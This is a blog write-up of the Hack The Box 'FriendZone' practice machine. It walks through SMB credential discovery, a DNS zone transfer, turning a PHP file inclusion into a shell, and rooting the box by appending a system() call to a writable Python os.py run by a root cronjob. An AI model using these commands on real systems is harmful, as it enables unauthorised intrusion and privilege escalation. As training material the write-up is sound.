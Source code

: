 ```yaml
---
layout: post
title: "Hack The Box: FriendZone write-up"
date: 2019-02-20
excerpt: "Really good machine to learn about DNS, also includes LFI and python library poisoning! One of my best ones so far! "
tags: [Hack The Box, Pentesting, LFI, SMB, Python, PHP]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/FriendZone/images/logo.png
---
```


# Hack The Box: FriendZone machine write-up

Although this machine was rated as easy with 20 points, I found it really challenging and learnt a great deal in some aspects, like DNS. It starts with us checking smb, getting some credentials and then having to do a zone transfer in order to find an admin panel, after which we come across an LFI which leads to RCE. Then, it's just a matter of realising that there is a cronjob running a python script as root which imports the """os""" library, so we can poison it and hence get to root.

The machine runs with ip 10.10.10.123.

## Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.123
```

```console
# Nmap 7.70 scan initiated Thu Feb 14 08:48:29 2019 as: nmap -sV -sC -oA nmap/initial friendzone
Nmap scan report for friendzone (10.10.10.123)
Host is up (0.041s latency).
Not shown: 993 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/ssl     Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2019-02-14T10:48:46+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-02-14 08:48:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 14 08:49:30 2019 -- 1 IP address (1 host up) scanned in 61.70 seconds


```

So many things, so let's go one by one.

### SMB server

I connected anonymously to the samba shares and discovered some interesting credentials. For that, I used SMBMap, a useful tool which lets the user scan all shares, list them recursively and even download files:

![Img](/assets/posts_details/FriendZone/images/smb1.png "Img")

![Img](/assets/posts_details/FriendZone/images/smb2.png "Img")

I tried to use the credentials in FTP and SSH, but no luck.
Therefore, I decided to move on to the webserver on port 80.

### Web server on port 80

The main page looked like this:

![Img](/assets/posts_details/FriendZone/images/web80.png "Img")

I tried to run dirbuster and came across what was a rabbit hole: a directory called ```wordpress``` that was empty. I tried to have a look at port 445, but nothing came up. It was time to enumerate port 53!

### DNS enumeration

I was completely new to this so I was advised to watch Ippsec's video of Bank (kudos to him). It indeed turned out to be useful, as the technique was the same: Zone Transfer. What this attack does is the following: the attacker acts as if it were a slave DNS server and asks the server for DNS entries, to which the compromised server complies. Hence, the attacker gets a bunch of useful information data.

The command I used was:

```
dig axfr @10.10.10.123 friendzone.red
```

I used that domain because in the main page there was an email with domain ``friendzoneportal.red`` and, after trying with that and getting nothing I removed the ``portal`` substring.

![Img](/assets/posts_details/FriendZone/images/dig.png "Img")

We can see some interesting domains, amongst which there is one that contains administrator! I added all of them to my ``/etc/hosts`` file.

### Web server on port 445

After adding all the entries, I visited ``https://administrator1.friendzone.red/``.

![Img](/assets/posts_details/FriendZone/images/web445_1.png "Img")

I entered the creds obtained through SMB: ``admin:WORKWORKHhallelujah@#``.

![Img](/assets/posts_details/FriendZone/images/web445_2.png "Img")

![Img](/assets/posts_details/FriendZone/images/web445_3.png "Img")

![Img](/assets/posts_details/FriendZone/images/web445_4.png "Img")

After some enumeration with dirbuster I dsicovered a PHP script called timestamp in that directory, so that gave me a clue of what was really happening: the ``pagename`` parameter includes a PHP script, in this case ``timestamp.php``.

## Getting user

With that in mind, it's easy to guess what to do: I just need to upload a PHP script to SMB (Development share) and then try to include it in the ``pagename`` parameter. Simple, isn't it?

Well, it didn't turn out to be that easy, as I couldn't find the path of ``Development``... After quite a lot of time, someone gave me a hint and told me to look at ``/etc/``. And there is was! I made a simple PHP file called ``test.php`` and uploaded to ``Development``. The contents of the file were:

```php
<?php echo "YESSSSS";?>
```

Then I accessed it with ``/etc/Development/test`` as the ``pagename`` parameter.

![Img](/assets/posts_details/FriendZone/images/test.png "Img")

Okay, so now I just needed to upload a shell and listen with netcat!

![Img](/assets/posts_details/FriendZone/images/rev.png "Img")

And we get the user hash being ``www-data``: ``a9ed20acecd6c5b6b52f474e15ae9a11``.

## Getting root

I started to enumerate the system and came across two interesting facts:

* There is a python script in ``/opt/server-status/reporter.py``:

```py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

* The ``/usr/lib/python2.7/os.py`` file could be edited!

I then used ``pspy``, a tool to monitor processes without the need of root privileges and got the following cronjob:

![Img](/assets/posts_details/FriendZone/images/pspy.png "Img")

Okay, so we have a python script that runs as root in a cronjob, and this script import os, which we can write. Seems obvious right? It's only necessary to poison the library by modifying the source code of ``/usr/lib/python2.7/os.py``.

I run the following command:

```console
echo "system('chmod 777 -R /root')" >> /usr/lib/python2.7/os.py
```

I waited and voilà! I could now access the root directory and read the flag:

![Img](/assets/posts_details/FriendZone/images/root_dir.png "Img")

And finally we can do ``cat root.txt``:

```
b0e6c60b82cf96e9855ac1656a9e90c7
```

Definitely one of the most interesting and learning-wise machines I've ever rooted! I hope you learnt as well reading the write-up!

---
<center><i>Diego Bernal Adelantado</i></center>
